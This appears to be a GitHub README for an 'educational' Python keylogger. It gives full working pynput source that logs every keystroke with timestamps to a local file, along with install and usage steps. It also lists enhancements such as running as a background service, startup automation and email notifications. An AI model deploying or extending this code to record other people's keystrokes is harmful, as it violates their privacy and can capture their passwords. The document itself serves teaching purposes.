 # Basic Keylogger

A simple educational keylogger built in Python using the pynput library. This project demonstrates how keyloggers work and is intended for educational purposes only.

## Overview

This project creates a basic keylogger that:
- Records all keystrokes on the system
- Logs them with timestamps to a text file
- Continues running until the Escape key is pressed
- Works on Kali Linux (and other Linux distributions)

## Disclaimer

**This software is for educational purposes only.** Using keyloggers without proper authorization is:
- Potentially illegal
- Unethical
- A violation of privacy

Always ensure you have explicit permission before monitoring any system or user.

## Prerequisites

- Kali Linux (or another Linux distribution)
- Python 3
- Administrative privileges (for installation)

## Installation Steps

### 1. Install the required Python package

Since Kali Linux uses an externally managed environment, we used the apt package manager instead of pip:

```bash
sudo apt install python3-pynput
```

### 2. Create a project directory

```bash
mkdir ~/keylogger_project
cd ~/keylogger_project
```

### 3. Create the keylogger script

Create a file named `keylogger.py` with the following code:

```python
from pynput.keyboard import Key, Listener
import logging
import time
import os

# Set up the logging configuration
log_dir = os.path.join(os.path.expanduser('~'), "keylogger_project")
if not os.path.exists(log_dir):
    os.makedirs(log_dir)

# Create log file with timestamp
log_file = os.path.join(log_dir, f"keylog_{time.strftime('%Y%m%d-%H%M%S')}.txt")

# Configure the logging
logging.basicConfig(
    filename=log_file,
    level=logging.INFO,
    format='%(asctime)s: %(message)s'
)

print(f"Keylogger started. Logging to {log_file}")
print("Press Esc key to stop the keylogger")

def on_press(key):
    try:
        # Log alphanumeric keys
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        # Log special keys
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    logging.info(f"Key released: {key}")
    
    # Stop the keylogger if Esc is pressed
    if key == Key.esc:
        print("Keylogger stopped")
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage

### Run the keylogger

```bash
python3 keylogger.py
```
![Alt text](images/example.png)
### Stop the keylogger

Press the **Esc** key to stop the keylogger properly. 

> Note: Using Ctrl+C will cause a KeyboardInterrupt and the program will not exit cleanly.

### View logged keystrokes

```bash
cat ~/keylogger_project/keylog_*.txt
```

This will display all captured keystrokes with their timestamps.
![Alt text](images/example.png)
## How It Works

1. **Listener Setup**: The script uses pynput's Listener to monitor keyboard events.
2. **Event Handlers**: 
   - `on_press()`: Logs when a key is pressed
   - `on_release()`: Logs when a key is released and checks for the Esc key to stop the program
3. **Logging**: All events are saved to a timestamped log file with detailed information

## Potential Enhancements

For legitimate use cases, this basic keylogger could be enhanced with:

- Background operation (running as a service)
- Startup automation
- Email notifications
- Log file encryption
- Advanced filtering options
- GUI for configuration

## Troubleshooting

### Common Issues:

1. **Permission Errors**: Ensure you have the necessary permissions to write to the log directory.
2. **Module Not Found**: If you get a "No module named 'pynput'" error, make sure you installed the package correctly.
3. **X Server Access**: For GUI applications, ensure the script has access to the X server.

## Resources

- [pynput Documentation](https://pynput.readthedocs.io/)
- [Python Logging Documentation](https://docs.python.org/3/library/logging.html)


